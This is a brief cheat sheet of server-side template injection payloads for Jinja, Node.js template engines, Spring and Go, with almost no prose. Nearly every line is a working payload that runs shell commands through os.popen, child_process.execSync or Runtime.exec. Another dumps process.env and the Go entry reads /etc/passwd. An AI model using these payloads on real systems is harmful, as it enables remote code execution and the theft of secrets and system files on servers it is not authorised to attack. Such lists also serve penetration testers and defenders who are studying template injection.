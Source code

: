 ## Jinja

- **Using os.wrap_close**
  ```
  {{'_'.__class__.__base__.__subclasses__()}}
  {{'_'.__class__.__base__.__subclasses__()[<OS._WRAP_CLOSE>].__init__.__globals__['sys'].modules['os'].popen('id').read()}}
  ```

- **Using other parameters**
```
{% if session.update({request.args.key:self._TemplateReference__context.cycler.__init__.__globals__.os.popen(request.args.command).read()}) == 1 %}{% endif %}&command=id&key=payload
```

## Node

- **Method 1**
```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('id')")()}}
#{7*7}
#{JSON.stringify(this.constructor.constructor('return process.env')())}
#{this.constructor.constructor('return process.mainModule.require("child_process").execSync("id", { encoding: "utf8" })')()}
{{this.constructor.constructor("return global.process.mainModule.require('child_process').execSync('id')")()}}
```

## Java

- Spring framework
    - `*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}`

## Go

- `{{ .File "/etc/passwd" }}` 
